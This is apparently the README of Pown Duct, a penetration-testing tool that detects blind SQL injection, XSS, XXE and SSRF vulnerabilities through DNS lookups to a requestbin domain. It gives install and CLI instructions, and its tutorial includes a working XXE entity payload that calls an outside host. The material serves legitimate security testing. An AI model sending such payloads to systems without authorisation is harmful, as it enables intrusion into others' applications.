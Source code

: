 [![Follow on Twitter](https://img.shields.io/twitter/follow/pownjs.svg?logo=twitter)](https://twitter.com/pownjs)
[![NPM](https://img.shields.io/npm/v/@pown/duct.svg)](https://www.npmjs.com/package/@pown/duct)
[![Fury](https://img.shields.io/badge/version-2x%20Fury-red.svg)](https://github.com/pownjs/lobby)

# Pown Duct

Essential tool for finding blind injection attacks using DNS side-channels.

## Credits

This tool is part of [secapps.com](https://secapps.com) open-source initiative.

```
  ___ ___ ___   _   ___ ___  ___
 / __| __/ __| /_\ | _ \ _ \/ __|
 \__ \ _| (__ / _ \|  _/  _/\__ \
 |___/___\___/_/ \_\_| |_|  |___/
  https://secapps.com
```

> **NB**: This tool is taking advantage of http://requestbin.net service. Future versions will use a dedicated, custom-built infrastructure.

## Quickstart

This tool is meant to be used as part of [Pown.js](https://github.com/pownjs/pown) but it can be invoked separately as an independent tool.

Install Pown first as usual:

```sh
$ npm install -g pown@latest
```

Invoke directly from Pown:

```sh
$ pown duct
```

Otherwise, install this module locally from the root of your project:

```sh
$ npm install @pown/duct --save
```

Once done, invoke pown cli:

```sh
$ ./node_modules/.bin/pown-cli duct
```

You can also use the global pown to invoke the tool locally:

```sh
$ POWN_ROOT=. pown duct
```

## Usage

```
pown duct <command>

Side-channel attack enabler

Commands:
  pown duct dns  DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
```

### `pown duct dns`

```
pown duct dns

DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
  --channel  Restore channel  [string]
  --output   Output format  [string] [choices: "string", "hexdump", "json"] [default: "string"]
```

## Tutorial

There are cases when we need to perform an attack such as sql injection, XSS, XXE or SSRF but the target application is not providing any indication that it is vulnerable. One way to be sure if a vulnerability is present is to try to inject a valid attack vector which forces a DNS resolver to ask for an attack controlled domain. If the resolution is successful, the attack will be considered successful.

> **NOTE**: You might be familiar with Burp Collaborator which provides a similar service for customers.

First, we need a disposable dns name to resolve:

```sh
$ pown duct dns
```

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/01.png)

Using the provided DNS, compose your payload. For example, the following could trigger trigger a DNS resolution if a XXE vulnerability is present.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

If the attack was successful, we will get a message in the terminal.

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/02.png)
